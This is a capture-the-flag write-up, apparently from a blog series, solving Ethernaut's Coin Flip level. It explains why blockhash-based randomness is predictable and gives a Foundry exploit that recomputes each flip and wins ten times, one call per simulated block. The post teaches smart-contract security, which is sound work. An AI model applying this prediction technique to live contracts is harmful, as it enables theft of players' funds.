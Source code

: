 ```yaml
---
title: 'Ethernaut Challenge #3 Solution — Coin Flip'
excerpt: 'This is Part 2 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.
'
coverImage: 
  url: '/assets/blog/ethernaut/coinflip.svg'
  credit: 
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-07-01T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/coinflip.svg'
---
```


This is Part 2 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #3: Coin Flip

> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
>
> Things that might help
>
> - See the Help page above, section "Beyond the console"
>
> Level author(s): [Kyle Riley](https://github.com/syncikin)

For this challenge, our end goal is to be able to consecutively guess the coin flip result by calling the `flip()` function passing the correct guess.

## Study the contracts

First thing that we notice, the Solidity compiler version used is `< 0.8.x`. This mean that the contract would be prone to math underflow and overflow bugs.

This contract is importing and using OpenZeppelin [SafeMath](https://docs.openzeppelin.com/contracts/4.x/api/utils#SafeMath) library, so they should be safe about overflow/underflow problems.

There are three state variables:

- `consecutiveWins` initialized by zero from the `constructor`. This variable will count how many consecutive correct guess we have made
- `FACTOR` that is declared as `57896044618658097711785492504343953926634992332820282019728792003956564819968`. Gas optimization tip: it can be declared as `constant` to save gas (see further reading)
- `lastHash` that will be updated each time by the `flip()` function

The only function inside the contract is `flip()`, let's see what it does

```solidity
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
        revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
        consecutiveWins++;
        return true;
    } else {
        consecutiveWins = 0;
        return false;
    }
}
```

This challenge allows you to learn two important aspects about the blockchain:

1. Everything on the blockchain is public, even private variables like `lastHash` and `FACTOR`
2. There is no real "native" randomness in the blockchain, but only "pseudo randomness"

**Note:** I have added some useful links in the "Further reading" section of the article if you want to learn more about these two topics.

Looking at the code of the function, we know that:

1. We know how to calculate the correct `_guess` function parameter. `_guess = uint256(blockhash(block.number.sub(1))).div(FACTOR) == 1 ? true : false`
2. We know that we cannot call multiple time `flip()` in the same block; otherwise the function will revert. This mean that to pass the challenge, we need to at least guess correctly for 11 blocks. If you look at the Factory contract, you will see that the challenge is solved when `instance.consecutiveWins() >= 10`

Knowing that, let's see the solution.

## Solution code

```solidity
function exploitLevel() internal override {

    vm.startPrank(player);

    uint256 factor = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    uint8 consecutiveWinsToReach = 10;

    while (level.consecutiveWins() < consecutiveWinsToReach) {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        uint256 coinFlip = blockValue.div(factor);

        level.flip(coinFlip == 1 ? true : false);

        // simulate a transaction
        utilities.mineBlocks(1);
    }
    vm.stopPrank();
}
```

As you see, the solution is pretty straightforward. Loop until the `consecutiveWins()` getter tell us we have reached `10`.

Inside the loop we calculate the value to pass to `flip` replicating the same logic of the `CoinFlip.flip` function.

After calling it, we call `utilities.mineBlock(1);`. This is a utility function that I have created that call Foundry cheat code `vm.roll(targetBlock);` that allow you to set the current block number. Basically, we are just increasing the block number in each loop section to simulate that a new block has been minted.

You can read the full solution of the challenge opening [CoinFlip.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/CoinFlip.t.sol)

## Further reading

- [SWC-120: Weak Sources of Randomness from Chain Attributes](https://swcregistry.io/docs/SWC-120)
- [SWC-136: Unencrypted Private Data On-Chain](https://swcregistry.io/docs/SWC-136)
- [Chainlink VRF (Verifiable Random Function)](https://docs.chain.link/docs/chainlink-vrf/): a provably fair and verifiable random number generator (RNG)
- [Foundry Book Cheat codes](https://book.getfoundry.sh/cheatcodes/)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
